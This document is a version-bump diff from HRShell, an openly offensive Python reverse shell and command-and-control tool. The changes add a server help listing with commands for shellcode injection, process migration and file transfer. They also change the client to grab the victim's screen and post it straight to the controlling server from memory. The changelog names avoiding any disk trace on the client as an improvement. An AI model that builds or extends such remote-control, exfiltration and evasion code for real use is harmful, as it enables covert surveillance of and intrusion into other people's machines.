

version 1.6...

Changed region(s): [[0.0, 0.0882, 0.9617, 0.9118], [0.0, 0.0, 1.0, 1.0]]

diff --git a/server.py b/server.py
@@ -4,10 +4,11 @@
 __Author__      = 'Christophoros Petrou (game0ver)'
 __Project_url__ = 'https://github.com/chrispetrou/HRShell'
 __License__     = 'GNU General Public License v3.0'
-__Version__     = '1.5'
+__Version__     = '1.6'
 
 import os
 import re
+import io
 import sys
 import ssl
 import time
@@ -22,6 +23,7 @@ from flask import (
     redirect,
     Blueprint
 )
+from PIL import Image
 from random import randint
 from threading import Thread
 from binascii import hexlify
@@ -51,7 +53,7 @@ from tornado.httpserver import HTTPServer
 
 # CONSOLE-COLORS
 B, D, RA = Style.BRIGHT, Style.DIM, Style.RESET_ALL
-BL, R, C, Y  = Fore.BLUE, Fore.RED, Fore.CYAN, Fore.YELLOW
+BL, R, C, Y, G  = Fore.BLUE, Fore.RED, Fore.CYAN, Fore.YELLOW, Fore.GREEN
 
 c1, c2, waiting = 0, 0, True
 progress = {
@@ -73,6 +75,7 @@ clientIP = ""
 emptyresponse = ('', 204)
 upload_contents, cmd_contents = "", ""
 
+help_cmd        = re.compile(r'^\s*help\s*')
 exit_cmd        = re.compile(r'^\s*exit\s*')
 clear_cmd       = re.compile(r'^\s*clear\s*')
 unix_path       = re.compile(r'^\s*download\s*((.+/)*([^/]+))$')
@@ -81,6 +84,20 @@ wind_path       = re.compile(r'^\s*download\s*((.+\\)*([^/]+))$')
 wind_upld       = re.compile(r'^\s*upload\s*(.+\\)*([^/]+)$')
 set_shellcode   = re.compile(r'^\s*set\s*shellcode\s*(\d+)\s*$')
 show_shellcodes = re.compile(r'^\s*show\s*shellcodes\s*$')
+
+# available commands...
+commands = f"""
+{B}help:{RA} show available commands.
+{B}screenshot:{RA} captures a screenshot from the client.
+{B}upload <file or path to file>:{RA} uploads a file to the client.
+{B}download <file or path to file>:{RA} downloads a file from the client.
+{B}migrate <PID>:{RA} attempts to inject shellcode on the process with the specific PID.
+{B}inject shellcode:{RA} injects shellcode into a thread of the current process.
+{B}show shellcodes:{RA} shows all available to use shellcodes based on 'shellcodes/utils.py' script.
+{B}set shellcode <shellcode-id>:{RA} set shellcode to a custom shellcode specified by its id.
+{B}clear:{RA} clears the screen (it's the same for both unix and windows systems).
+{B}exit:{RA} closes the connection with the client.
+"""
 
 app = Flask(__name__)
 app.config['SECRET_KEY'] = hexlify(os.urandom(16)) # you can change that to something permanent...
@@ -289,6 +306,9 @@ def handleGET():
                 except KeyError:
                     print(f"[x] There is no shellcode with id: {shc_id}")
                     return emptyresponse
+            elif help_cmd.match(cmd):
+                print(commands[1:-1])
+                return emptyresponse
             elif exit_cmd.match(cmd):
                 cmd_contents = cmd
                 waiting = True
@@ -311,9 +331,14 @@ def handlePOST():
             if request.headers.get('Action') == 'download':
                 with open(filename, 'wb') as w:
                     w.write(bdec(request.data))
-                print(f'{filename} successfully downloaded!')
+                print(f'[{B+G}SUCCESS{RA}] {filename} successfully downloaded!')
             else:
-                print(f'{filename} successfully uploaded!')
+                print(f'[{B+G}SUCCESS{RA}] {filename} successfully uploaded!')
+        elif request.headers.get('Action') == 'screenshot':
+            img = Image.open(io.BytesIO(request.data))
+            screenshot_name = f"screenshot_{randint(0,1000)}.png"
+            img.save(screenshot_name)
+            print(f'[{B+G}SUCCESS{RA}] {screenshot_name} successfully downloaded!')
         elif request.headers.get('Shellcode_id'):
             slowprint(f"[+] Shellcode successfully set to: {Y+utils.shellcodes[int(request.headers.get('Shellcode_id'))][0]}{RA}")
         else:

diff --git a/client.py b/client.py
@@ -4,10 +4,11 @@
 __Author__      = 'Christophoros Petrou (game0ver)'
 __Project_url__ = 'https://github.com/chrispetrou/HRShell'
 __License__     = 'GNU General Public License v3.0'
-__Version__     = '1.5'
+__Version__     = '1.6'
 
 import os
 import re
+import io
 import sys
 import mmap
 import time
@@ -302,20 +303,14 @@ try:
                         try:
                             from PIL import ImageGrab
                             screen_shot = ImageGrab.grab()
-                            screenshot_name = "screenshot_{}.png".format(randint(0, 1000))
-                            screen_shot.save(screenshot_name)
-                            with open(screenshot_name,'rb') as f:
-                                screenshot_data = f.read()
+                            image_data = io.BytesIO()
+                            screen_shot.save(image_data, format='PNG')
                             s.post(SERVER,
                                 headers={
-                                    "Filename" : screenshot_name,
-                                    "Action"   : 'download'
+                                    "Action"   : 'screenshot'
                                 },
-                                data=benc(screenshot_data))
-                            if os.name=='nt':
-                                exec_cmd('del {}'.format(screenshot_name))
-                            else:
-                                exec_cmd('rm {}'.format(screenshot_name))
+                                data=image_data.getvalue()
+                            )
                         except ImportError:
                             s.post(SERVER, data='ERROR: Pillow module is not installed.')
                         except Exception as screenshot_error:

diff --git a/README.md b/README.md
@@ -5,7 +5,7 @@
 [![GPLv3 license](https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square)](https://github.com/chrispetrou/HRShell/blob/master/LICENSE) 
 [![](https://img.shields.io/badge/python-3-yellow.svg?style=flat-square&logo=python&logoColor=white)](https://www.python.org/)
 [![](https://img.shields.io/badge/Build%20with-Flask-blueviolet.svg?style=flat-square&logo=flask&logoColor=white)](https://palletsprojects.com/p/flask/)
-[![version](https://img.shields.io/badge/version-1.5-lightgray.svg?style=flat-square)](https://github.com/chrispetrou/HRShell/blob/master/CHANGELOG.md) 
+[![version](https://img.shields.io/badge/version-1.6-lightgray.svg?style=flat-square)](https://github.com/chrispetrou/HRShell/blob/master/CHANGELOG.md) 
 [![Known Vulnerabilities](https://snyk.io//test/github/chrispetrou/HRShell/badge.svg?style=flat-square&targetFile=requirements.txt)](https://snyk.io//test/github/chrispetrou/HRShell?targetFile=requirements.txt)
 
 * * *

diff --git a/CHANGELOG.md b/CHANGELOG.md
@@ -1,6 +1,12 @@
-#### Version 1.6 (_TBA_)
+#### Version 1.7 (_TBA_)
 
 *   More features & bug fixes!
+
+#### Version 1.6 (_08-10-2019_)
+
+*   `screenshot` command __doesn't__ store the screenshot captured on the client and then trasmits it to server, __but__ directly transmits it to the server avoiding to touch the disk on client.
+*   Direct browser connections are not allowed.
+*   `help` command added.
 
 #### Version 1.5 (_28-09-2019_)
 
